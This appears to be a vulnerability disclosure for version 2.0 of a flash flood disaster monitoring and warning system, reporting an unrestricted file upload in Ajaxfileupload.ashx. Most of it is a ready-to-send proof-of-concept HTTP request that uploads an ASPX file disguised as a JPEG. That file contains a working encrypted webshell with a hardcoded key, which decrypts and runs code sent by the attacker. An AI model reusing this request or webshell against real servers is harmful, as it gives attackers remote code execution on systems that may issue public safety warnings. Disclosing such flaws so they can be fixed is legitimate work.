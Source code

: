 Flash flood disaster monitoring and warning system 2.0 has arbitrary file upload vulnerability

official website:http://www.cdwanjiang.com/

version:2.0

Vulnerability location
\Controller\Ajaxfileupload.ashx

![WPS图片(1)](https://github.com/GUIqizsq/cve/assets/139303407/ed710216-86de-44ac-8b11-16a5df5b1592)

Trace class:

\bin\MFCW.Web.dll

// MFCW.Web.Controller.Ajaxfileupload

Unfiltered file types are available to obtain webshell. After upload location/upload/ContingencyPlan yyyyMMddhhmmssfff. Aspx
![WPS图片(2)](https://github.com/GUIqizsq/cve/assets/139303407/e2a286b9-ecbd-452d-96f1-a7a2b43fa405)

POC
```
POST /Controller/Ajaxfileupload.ashx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJa5U4zOAfmJDcYxj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 541

------WebKitFormBoundaryJa5U4zOAfmJDcYxj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

<%@ Page Language="C#" %><%@Import Namespace="System.Reflection"%><%Session.Add("k","e45e329feb5d925b");byte[] k = Encoding.Default.GetBytes(Session[0] + ""),c = Request.BinaryRead(Request.ContentLength);Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this);%>
------WebKitFormBoundaryJa5U4zOAfmJDcYxj--
```
![WPS图片(3)](https://github.com/GUIqizsq/cve/assets/139303407/2ff70f2c-499e-45b4-966c-494dc50fa439)
![WPS图片(4)](https://github.com/GUIqizsq/cve/assets/139303407/fae6280f-9ac3-46ee-9f7c-341d911d9bf9)

